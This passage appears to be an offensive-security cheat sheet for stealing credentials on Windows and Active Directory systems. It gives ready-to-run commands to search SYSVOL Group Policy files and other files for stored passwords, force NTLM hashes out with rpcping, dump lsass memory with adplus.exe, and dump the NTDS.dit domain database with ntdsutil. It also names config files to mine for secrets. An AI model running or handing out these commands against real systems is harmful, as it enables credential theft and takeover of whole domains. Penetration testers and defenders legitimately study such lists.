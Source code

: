 Search for stored password in Group Policy files stored on SYSVOL.
```
findstr /S /I cpassword \\sysvol\policies\*.xml
```
Find all passwords in all files.
```
findstr /spin "password" *.*
findstr /si password *.xml *.ini *.txt
findstr /si password *.txt *.ini *.config *.xml
findstr /si password *.txt | *.xml | *.ini | *.rdp | *.py | *.pl | *.log
```
Consider trying other variations of password like pass, cred, credentials, login, uid, etc. 

## rpcping
https://lolbas-project.github.io/lolbas/Binaries/Rpcping/#credentials

Send a RPC test connection to the target server (-s) and force the NTLM hash to be sent in the process.
```
rpcping -s 127.0.0.1 -e 1234 -a privacy -u NTLM
```
## adplus.exe
https://lolbas-project.github.io/lolbas/OtherMSBinaries/Adplus/#dump

Creates a memory dump of the lsass process
```
adplus.exe -hang -pn lsass.exe -o c:\users\mr.d0x\output\folder -quiet
```
## diskshadow
https://lolbas-project.github.io/lolbas/Binaries/Diskshadow/

Execute commands using diskshadow.exe from a prepared diskshadow script.
```
diskshadow.exe /s c:\test\diskshadow.txt
```
## ntdsutil
https://lolbas-project.github.io/lolbas/OtherMSBinaries/Ntdsutil/

Dumping of Active Directory NTDS.dit database into folder
```
ntdsutil.exe "ac i ntds" "ifm" "create full c:\" q q
```

# search for unattended.xml files
```
Get-Childitem –Path C:\ -Include unattended.xml -Recurse -ErrorAction SilentlyContinue
```

## Find all those strings in config files.
1. web.config
2. php.ini
3. httpd.conf
4. access.log
5. vnc.ini (easy to decrypt)
6. ultravnc.ini (easy to decrypt)
